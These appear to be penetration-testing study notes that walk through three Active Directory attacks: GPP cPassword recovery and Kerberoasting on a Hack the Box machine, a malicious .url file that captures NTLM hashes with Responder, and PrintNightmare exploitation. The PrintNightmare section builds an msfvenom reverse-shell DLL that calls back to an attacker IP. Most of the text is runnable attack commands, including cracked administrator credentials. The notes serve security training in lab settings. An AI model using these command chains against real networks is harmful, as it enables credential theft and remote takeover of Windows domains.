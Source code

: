 ### Group Policy Preferences (GPP) AKA MS14-025
#### Overview
- Group Policy preferences allowed admins to create policies using embedded credentials. 
- These credentials were encrypted and placed in a "cPassword"
- The key was accidentally released
- Patched in MS14-025, but does not prevent previous uses. If and admin stored a group policy preference or embedded credential before the patch was implemented, this will still display a credential to us. 
- Does not come up that often but still important to check. 
#### GPP Walk
- We will use a Hack the Box machine called "Active" https://app.hackthebox.com/machines/148.
- Doing a quick nmap scan we can see a lot of ports open that indicate this is a domain controller. "kerberos, ldap, microsoft'ds"...
- We will focus on 445 microsoft-ds, normally there are sys default folders. Using "smbclient -L \\\\ipaddress\\" and no password.
- We can try to login to replication because is the default one and will allow anonymous access. Using "smbclient \\\\ipaddress\\Replication" 
- In order to download all the files we use "prompt off", "recurse on" and "mget *" and we want the "Groups.xml".
- This file will include the password, domain name and TGS.
- To decrypt the password we use "gpp-decrypt 'hash'".
- We can now use psexec.py or meterpreter to try to login to the machine. But this will not work. We can try kerberosting because we have tgs. Using "Python GetUserSPNs.py active.htb/svc_tgs:Password -dc-ip 10.10.10.100 -request" and we get a krb5tgs password hash. We run a hashcat using "hashcat64.exe  -m 13100 hash.txt rockyou.txt -O" and we get the password of the administrator.
- Now we try psexc.py again but using the administrator credentials "python psexec.py active.htb/AdministratorÇTicketmaster1968@10.10.10.100" and we get shell.


### URL File Attacks
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#scf-and-url-file-attack-against-writeable-share
- https://academy.tcm-sec.com/courses/1152300/lectures/33637401
- This is when you have a compromised user, and that user has a file share access. We can use that access to capture more hashes via responder.
- Create a file on the target machine with "[InternetShortcut] URL=blah WorkingDirectory=blah IconFile=\\myIP\%USERNAME%.icon IconIndex=1"
- We save this file on the share folder that will be attacked. The file name has to contain .url and a @ at the begging, "@test.url".
- Now on our attack machine we load responder using "responder -I eth0 -v". Now if a user access the shared folder the reposponder will get the user hash that accessed it, returning a NTLMV" Hash. 

### PrintNightmare (CVE-2021-1675) Walkthrough
- [https://github.com/cube0x0/CVE-2021-1675](https://github.com/cube0x0/CVE-2021-1675)
- To identify if the target is vulnerable to this attack run "rpcdump.py @192.168.1.10 | egrep 'MS-RPRN|MS-PAR'" and if we get this retun it is vulnerable.
![[Pasted image 20230604124250.png]]
- To run the attack we first need to update impacket. "pip3 uninstall impacket"
"git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install"
- After we need to copy the python code and create that file on our machine. https://github.com/cube0x0/CVE-2021-1675/blob/main/CVE-2021-1675.py
- We have to create a explkoit using msfvenom "sudo msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.138.193 LPORT =5555 -f dll > shell.dll"
- Now load meterpreter and "use multi/handler", set payload to "windows/x64/meterpreter/reverse_tcp", lhost and port to the same. 
- Now we will use impacket to share the shell.dll. On the same directory where the file is run "sudo smbserver.py share 'pwd' -smb2support"
- To run the attack now we run "python3 CVE2021.py marvel.local/fcastel:Password1@192.168.138.150 '\\192.168.138.193\share\shell.dll'" and we get a meterpreter shell on meterpreter. 